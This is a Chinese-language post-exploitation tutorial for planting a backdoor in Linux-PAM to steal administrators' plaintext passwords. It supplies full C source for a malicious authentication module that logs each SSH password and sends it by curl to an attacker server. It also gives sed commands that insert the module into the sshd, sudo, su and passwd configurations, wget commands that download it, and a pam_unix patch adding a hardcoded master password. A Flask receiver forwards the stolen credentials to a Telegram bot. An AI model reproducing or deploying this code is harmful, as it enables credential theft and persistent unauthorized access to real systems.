

前言
Linux-PAM是可插入认证模块(Pluggable Authentication Modules)，PAM使用配置/etc/pam.d/下的文件，来管理对程序的认证方式。
根据/etc/pam.d/下的各种服务配置文件，调用/lib/security下相应的模块，以加载动态链接库的形式实现需要的认证方式。
后渗透阶段中，当拿到root权限，刚好管理员只用root账户，想获得管理员密码进行横向渗透时，可以利用PAM获取管理员的明文密码。
sshLooter便是通过此方式获取管理员明文密码，但它基于python-pam，实战环境中python环境经常符合预期，而且直接硬编码telegram-bot的token，一旦泄露，可能会被骗入蜜罐，这个工具用起来非常鸡肋，因此有了下面的实践。
编写后门认证模块
首先查看系统和PAM版本，不同发行版的版本不同，不一定能通用
getconf LONG_BIT
cat /etc/redhat-release
rpm -qa | grep pam
apt-get list --installed | grep pam
然后vi /etc/ssh/sshd_config，确保UsePAM启用
# Set this to 'yes' to enable PAM authentication, account processing,
# and session processing. If this is enabled, PAM authentication will
# be allowed through the ChallengeResponseAuthentication mechanism.
# Depending on your PAM configuration, this may bypass the setting of
# PasswordAuthentication, PermitEmptyPasswords, and
# "PermitRootLogin without-password". If you just want the PAM account and
# session checks to run without PAM authentication, then enable this but set
# ChallengeResponseAuthentication=no
#UsePAM no
UsePAM yes
目前我只在下面两个平台测试过
pam-0.99.6.2-6.el5_5.2 CentOS release 5.8
pam-1.1.1-13.el6.x86_64 CentOS release 6.4
在PAM源码中，pam_sm_authenticate函数对应认证服务，我们要在这里获得密码。 下面是代码，保存为pam_authx.c
#define PAM_SM_AUTH
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <syslog.h>
#include <stdarg.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
static void _pam_log(int err, const char *format, ...) {
va_list args;
va_start(args, format);
// openlog("pam_authx", LOG_CONS|LOG_PID, LOG_AUTH);
vsyslog(err, format, args);
va_end(args);
closelog();
}
static void _write_log(char *path, char *content) {
FILE *fp;
fp=fopen(path,"a");
fprintf(fp,"%s\n", content);
fclose(fp);
}
char chr(int value) {
char result = '\0';
if(value >= 0 && value <= 9) {
result = (char)(value + 48);
} else if(value >= 10 && value <= 15) {
result = (char)(value - 10 + 65);
} else {
;
}
}
static int str_to_hex(char *ch, char *hex) {
int high,low;
int tmp = 0;
if(ch == NULL || hex == NULL) {
return -1;
}
if(strlen(ch) == 0) {
return -2;
}
while(*ch) {
tmp = (int)*ch;
high = tmp >> 4;
low = tmp & 15;
*hex++ = chr(high);
*hex++ = chr(low);
ch++;
}
*hex = '\0';
return 0;
}
int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
char *username;
char *password;
char *remotehost;
pam_get_item(pamh, PAM_USER, (void*) &username);
pam_get_item(pamh, PAM_AUTHTOK, (void*) &password);
pam_get_item(pamh, PAM_RHOST, (void*) &remotehost);
if (!username || !password) {
return PAM_AUTHINFO_UNAVAIL;
}
// 前提开启syslog，输出在debug，三种记录方式可选择注释
_pam_log(LOG_DEBUG, "ssh auth attempt: %s entered the password %s", username, password);
char cmd[300];
char password_hex[200];
// 把密码转成HexString格式，因为有其他符号容易出bug
str_to_hex(password, password_hex);
// 把密码输出至/tmp/6W1PUsEP7qUC.log，并且通过HTTP协议回源到我的服务器
strcpy(cmd, "curl -d 'msg=");
strcat(cmd, username);
strcat(cmd, "::");
strcat(cmd, password_hex);
_write_log("/tmp/6W1PUsEP7qUC.log", cmd);
strcat(cmd, "::");
strcat(cmd, remotehost);
strcat(cmd, "' 'http://target:8443/ssh'");
system(cmd);
return(PAM_SUCCESS);
}
int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
return(PAM_IGNORE);
}
使用gcc直接编译成动态链接库文件
gcc -fPIC -DPIC -shared -rdynamic -o pam_authx.so pam_authx.c
配置PAM后门
根据官方说明，为了获取密码，我们要设置成auth模块类型
auth - this module type provides two aspects of authenticating the user. Firstly, it establishes that the user is who they claim to be, by instructing the application to prompt the user for a password or other means of identification. Secondly, the module can grant group membership or other privileges through its credential granting properties.
就算失败也继续执行其他模块
required - failure of such a PAM will ultimately lead to the PAM-API returning failure but only after the remaining stacked modules (for this service and type) have been invoked.
因为上面的代码只是针对pam_sm_authenticate函数的，为了快速编译而写的，所以还是需要用到pam_unix.so模块，它会把密码与/etc/shadow中的哈希对比。 接下来在/etc/pam.d/的对应配置文件首行加入下面两条配置，根据官方说明，按顺序就行。
# Ubuntu
/etc/pam.d/common-auth-ys
# CentOS
/etc/pam.d/sshd
An important feature of PAM, is that a number of rules may be stacked to combine the services of a number of PAMs for a given authentication task.
auth required pam_unix.so
auth required pam_authx.so
这里可以对sshd, sudo, su, passwd等服务加入后门模块，当然后者属于低权限用户，可以使用trace跟踪输入的密码
sed -i "1iauth required pam_unix.so\nauth required pam_authx.so" /etc/pam.d/sshd
sed -i "1iauth required pam_unix.so\nauth required pam_authx.so" /etc/pam.d/sudo
sed -i "1iauth required pam_unix.so\nauth required pam_authx.so" /etc/pam.d/su
sed -i "1iauth required pam_unix.so\nauth required pam_authx.so" /etc/pam.d/passwd
下载目标编辑好的pam后门到目标电脑
# CentOS
wget http://target:8443/download/authx -O /lib64/security/pam_authx.so
# Ubuntu
wget http://target:8443/download/authx -O /lib/x86_64-linux-gnu/security/pam_authx.so
chmod a+x /lib64/security/pam_authx.so
在PAM认证模块源码添加后门
如果模块无效，可以使用此方法，先查看日志
tail /var/log/secure
如果因为版本兼容性原因，可以去这个地址下载对应版本的PAM
http://www.linux-pam.org/library/
下载完毕解压并编辑pam_unix_auth.c
tar -zxvf Linux-PAM-1.1.1.tar.gz
cd Linux-PAM-1.1.1
vim modules/pam_unix/pam_unix_auth.c
对pam_sm_authenticate函数进行修改，编译，然后直接替换64位目标机器的/lib64/security/pam_authx.so
PAM_EXTERN int pam_sm_authenticate(pam_handle_t * pamh, int flags ,int argc, const char **argv)
{
unsigned int ctrl;
int retval, *ret_data = NULL;
const char *name;
const void *p;
...
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
// ------------- 在此处添加代码 -----------------
// 加入指定密码后门，如果输入buyaoluwo，也能登录成功
if(strcmp(p,"buyaoluwo")==0) {
retval = PAM_SUCCESS;
}
if(retval== PAM_SUCCESS) {
// 当密码正确，这里可以添加输出密码的代码。
}
// ------------- 在此处添加代码 -----------------
name = p = NULL;
AUTH_RETURN;
}
接收端
import socket
import StringIO
import sys
class WSGIServer(object):
address_family = socket.AF_INET
socket_type = socket.SOCK_STREAM
request_queue_size = 1
def __init__(self, server_address):
# Create a listening socket
self.listen_socket = listen_socket = socket.socket(
self.address_family,
self.socket_type
)
# Allow to reuse the same address
listen_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
# Bind
listen_socket.bind(server_address)
# Activate
listen_socket.listen(self.request_queue_size)
# Get server host name and port
host, port = self.listen_socket.getsockname()[:2]
self.server_name = socket.getfqdn(host)
self.server_port = port
# Return headers set by Web framework/Web application
self.headers_set = []
def set_app(self, application):
self.application = application
def serve_forever(self):
listen_socket = self.listen_socket
while True:
# New client connection
self.client_connection, client_address = listen_socket.accept()
# Handle one request and close the client connection. Then
# loop over to wait for another client connection
self.handle_one_request()
def handle_one_request(self):
self.request_data = request_data = self.client_connection.recv(1024)
# Print formatted request data a la 'curl -v'
print(''.join(
'< {line}\n'.format(line=line)
for line in request_data.splitlines()
))
self.parse_request(request_data)
# Construct environment dictionary using request data
env = self.get_environ()
# It's time to call our application callable and get
# back a result that will become HTTP response body
result = self.application(env, self.start_response)
# Construct a response and send it back to the client
self.finish_response(result)
def parse_request(self, text):
request_line = text.splitlines()[0]
request_line = request_line.rstrip('\r\n')
# Break down the request line into components
(self.request_method, # GET
self.path, # /hello
self.request_version # HTTP/1.1
) = request_line.split()
def get_environ(self):
env = {}
# The following code snippet does not follow PEP8 conventions
# but it's formatted the way it is for demonstration purposes
# to emphasize the required variables and their values
#
# Required WSGI variables
env['wsgi.version'] = (1, 0)
env['wsgi.url_scheme'] = 'http'
env['wsgi.input'] = StringIO.StringIO(self.request_data)
env['wsgi.errors'] = sys.stderr
env['wsgi.multithread'] = False
env['wsgi.multiprocess'] = False
env['wsgi.run_once'] = False
# Required CGI variables
env['REQUEST_METHOD'] = self.request_method # GET
env['PATH_INFO'] = self.path # /hello
env['SERVER_NAME'] = self.server_name # localhost
env['SERVER_PORT'] = str(self.server_port) # 8888
return env
def start_response(self, status, response_headers, exc_info=None):
# Add necessary server headers
server_headers = [
('Date', 'Tue, 31 Mar 2015 12:54:48 GMT'),
('Server', 'WSGIServer 0.2'),
]
self.headers_set = [status, response_headers + server_headers]
# To adhere to WSGI specification the start_response must return
# a 'write' callable. We simplicity's sake we'll ignore that detail
# for now.
# return self.finish_response
def finish_response(self, result):
try:
status, response_headers = self.headers_set
response = 'HTTP/1.1 {status}\r\n'.format(status=status)
for header in response_headers:
response += '{0}: {1}\r\n'.format(*header)
response += '\r\n'
for data in result:
response += data
# Print formatted response data a la 'curl -v'
print(''.join(
'> {line}\n'.format(line=line)
for line in response.splitlines()
))
self.client_connection.sendall(response)
finally:
self.client_connection.close()
SERVER_ADDRESS = (HOST, PORT) = '', 8443
def make_server(server_address, application):
server = WSGIServer(server_address)
server.set_app(application)
return server
if __name__ == '__main__':
if len(sys.argv) < 2:
sys.exit('Provide a WSGI application object as module:callable')
app_path = sys.argv[1]
module, application = app_path.split(':')
module = __import__(module)
application = getattr(module, application)
httpd = make_server(SERVER_ADDRESS, application)
print('WSGIServer: Serving HTTP on port {port} ...\n'.format(port=PORT))
httpd.serve_forever()
from flask import Flask
from flask import request
from flask import send_from_directory
import requests,binascii
import os
# nohup gunicorn -w 1 -b 0.0.0.0:8443 mikasa:app > /dev/null 2>&1 &
app = Flask(__name__)
@app.route("/ssh", methods=['POST'])
def ssh():
if request.method == 'POST' and request.form.get('msg'):
msg = request.form.to_dict().get("msg")
msg = msg.split("::")
print(msg[1])
msg = "host: " + msg[2] + "\nusername: " + msg[0] + "\npassword: " + str(bytearray.fromhex(msg[1]))
sendMessage(msg)
return "200"
@app.route("/download/ssh", methods=['GET'])
def downloadssh():
directory = os.getcwd()
return send_from_directory(directory, "install_ssh.sh", as_attachment=True)
@app.route("/download/authx", methods=['GET'])
def downloadauthx():
directory = os.getcwd()
return send_from_directory(directory, "pam_authx.so", as_attachment=True)
def sendMessage(msg):
apiKey = "248346092:BAHX0RP9C1x9TV358Fq7I6i4iyR-bOdmJfo"
userId = "14491864"
data = {"chat_id":userId,"text":msg}
url = "https://api.telegram.org/bot{}/sendMessage".format(apiKey)
r = requests.post(url,json=data)
if __name__ == "__main__":
app.run(host='0.0.0.0', port=8443)
效果
我的回源服务器会将密码发送到telegram-bot
